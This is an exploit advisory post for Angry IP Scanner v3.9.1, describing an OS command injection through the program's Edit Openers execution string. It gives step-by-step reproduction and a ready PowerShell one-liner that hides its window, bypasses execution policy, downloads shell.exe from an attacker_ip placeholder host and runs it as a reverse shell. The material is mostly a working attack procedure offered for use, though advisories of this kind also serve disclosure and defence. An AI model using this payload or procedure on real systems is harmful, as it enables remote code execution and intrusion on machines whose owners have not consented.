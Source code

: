 ```yaml
---
layout: post
title: Angry IP Scanner v3.9.1 - OS Command Injection
date: 2023-09-18
category: exploit
---
```


# Exploit Title: Angry IP Scanner v3.9.1 - OS Command Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 18.09.2023
# Vendor Homepage: https://angryip.org
# Software Link: https://github.com/angryip/ipscan/releases/download/3.9.1/ipscan-3.9.1-setup.exe
# Tested Version: v3.9.1 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open Angry IP Scanner.
2. Click on the **Start** button.
3. Go to **Commands > Edit Openers**.
4. Select **Ping** and enter your reverse shell command into the **Execution string** box, then click **OK**.
5. Now go to **Commands > Open > Ping**.
6. Your reverse shell should now be active, connecting to your listener.

### Example of Reverse Shell Command

To set up a reverse shell in the **Execution string** box, you can use the following command:

```batch
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri http://attacker_ip:port -OutFile %TEMP%\shell.exe; Start-Process %TEMP%\shell.exe"
